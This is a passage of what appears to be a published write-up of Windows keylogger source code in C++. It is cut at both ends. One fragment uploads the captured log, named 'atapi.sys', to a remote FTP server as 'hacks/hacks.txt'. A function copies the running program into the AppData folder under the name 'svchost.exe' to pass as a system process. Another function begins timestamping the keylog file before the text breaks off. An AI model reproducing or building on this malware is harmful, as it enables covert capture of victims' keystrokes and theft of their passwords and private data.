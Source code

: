 ```


			if(hFtpSession == NULL){

				log_error_file<<"Error:"<<GetLastError();
			}
			else{
				if(!FtpPutFile(hFtpSession,"atapi.sys","hacks/hacks.txt",FTP_TRANSFER_TYPE_BINARY,0)){
					log_error_file<<"Error:"<<GetLastError();
					log_error_file.close();
				}
			}


		}
	}
```

#### Auto Copy in AppData Folder & Intialize Keylog Text File with Date Time Stamp

```
void AutoCopy(){

	string f_path = userlc;
	string f_name=f_path;
	f_name+="\\svchost.exe";//file name
	char my_name[260];
	GetModuleFileName(GetModuleHandle(0),my_name,260);//name of running process
	string f_my=my_name;
	CreateDirectory(f_path.c_str(),NULL);
	CopyFile(f_my.c_str(),f_name.c_str(),FALSE);

}

void Install(){

	SYSTEMTIME st;
	GetLocalTime(&st);
	int year = st.wYear;
	int month = st.wMonth;
	int day = st.wDay;
	int hour = st.wHour;
	int mintue = st.wMinute;

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M------------>\n\n";

	string startDate = "\n\n";
	startDate += dayS + monthS + yearS + hourS + mintueS;
	char dateCh[260];
	strcpy(dateCh,startDate.c_str());


	string ff_path = userlc;
```